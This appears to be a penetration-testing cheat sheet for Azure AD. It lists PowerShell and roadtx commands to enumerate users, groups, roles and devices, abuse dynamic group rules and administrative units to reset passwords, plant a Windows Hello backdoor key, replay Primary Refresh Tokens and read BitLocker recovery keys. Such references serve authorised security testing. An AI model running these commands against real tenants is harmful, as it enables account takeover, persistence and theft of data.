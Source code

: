 # Azure AD IAM

> Root Management Group (Tenant) > Management Group > Subscription > Resource Group > Resource

* Users
* Devices
* Service Principals (Application and Managed Identities)

## Users

* List users: `Get-AzureADUser -All $true`
* Enumerate groups

    ```ps1
    # List groups
    Get-AzureADGroup -All $true
    
    # Get members of a group
    Get-AzADGroup -DisplayName '<GROUP-NAME>'
    Get-AzADGroupMember -GroupDisplayName '<GROUP-NAME>' | select UserPrincipalName
    ```

* Enumerate roles: `Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember`
* List roles: `Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False} | select DisplayName`
* Add user to a group

    ```ps1
    $groupid = "<group-id>"
    $targetmember = "<user-id>"
    $group = Get-MgGroup -GroupId $groupid
    $members = Get-MgGroupMember -GroupId $groupid
    New-MgGroupMember -GroupId $groupid -DirectoryObjectid $targetmember
    ```

### Use Credentials

### Dynamic Group Membership

Get groups that allow Dynamic membership: `Get-AzureADMSGroup | ?{$_.GroupTypes -eq 'DynamicMembership'}`

Rule example : `(user.otherMails -any (_ -contains "vendor")) -and (user.userType -eq "guest")`     
Rule description: Any Guest user whose secondary email contains the string 'vendor' will be added to the group

1. Open user's profile, click on **Manage**
2. Click on **Resend** invite and to get an invitation URL
3. Set the secondary email
    ```powershell
    PS> Set-AzureADUser -ObjectId <OBJECT-ID> -OtherMails <Username>@<TENANT NAME>.onmicrosoft.com -Verbose
    ```


### Administrative Unit

Administrative Unit can reset password of another user

```powershell
PS AzureAD> Get-AzureADMSAdministrativeUnit -All $true
PS AzureAD> Get-AzureADMSAdministrativeUnit -Id <ID>
PS AzureAD> Get-AzureADMSAdministrativeUnitMember -Id <ID>
PS AzureAD> Get-AzureADMSScopedRoleMembership -Id <ID> | fl
PS AzureAD> Get-AzureADDirectoryRole -ObjectId <RoleId>
PS AzureAD> Get-AzureADUser -ObjectId <RoleMemberInfo.Id> | fl

PS C:\Tools> $password = "Password" | ConvertToSecureString -AsPlainText -Force
PS C:\Tools> (Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq "<Username>@<TENANT NAME>.onmicrosoft.com"}).ObjectId | SetAzureADUserPassword -Password $Password -Verbose
```


## Devices

### List Devices

```ps1
Connect-AzureAD
Get-AzureADDevice
$user = Get-AzureADUser -SearchString "username"
Get-AzureADUserRegisteredDevice -ObjectId $user.ObjectId -All $true
```


### Device State

```ps1
PS> dsregcmd.exe /status
+----------------------------------------------------------------------+
| Device State |
+----------------------------------------------------------------------+
 AzureAdJoined : YES
 EnterpriseJoined : NO
 DomainJoined : NO
 Device Name : jumpvm
```


### Join Devices

* [Enroll Windows 10/11 devices in Intune](https://learn.microsoft.com/en-us/mem/intune/user-help/enroll-windows-10-device)


### Register Devices

```ps1
roadtx device -a register -n swkdeviceup
```


### Windows Hello for Business

```ps1
roadtx.exe prtenrich --ngcmfa-drs-auth
roadtx.exe winhello -k swkdevicebackdoor.key
roadtx.exe prt -hk swkdevicebackdoor.key -u <user@domain.lab> -c swkdeviceup.pem -k swkdeviceup.key
roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
```


### Bitlocker Keys

```ps1
Install-Module Microsoft.Graph -Scope CurrentUser
Import-Module Microsoft.Graph.Identity.SignIns
Connect-MgGraph -Scopes BitLockerKey.Read.All
Get-MgInformationProtectionBitlockerRecoveryKey -All
Get-MgInformationProtectionBitlockerRecoveryKey -BitlockerRecoveryKeyId $bitlockerRecoveryKeyId
```


# Service Principals


## Other

Lists all the client IDs you can use to get a token with the `mail.read` scope on the Microsoft Graph:

```ps1
roadtx getscope -s https://graph.microsoft.com/mail.read
roadtx findscope -s https://graph.microsoft.com/mail.read
```


## References

* [Pentesting Azure Mindmap](https://github.com/synacktiv/Mindmaps)
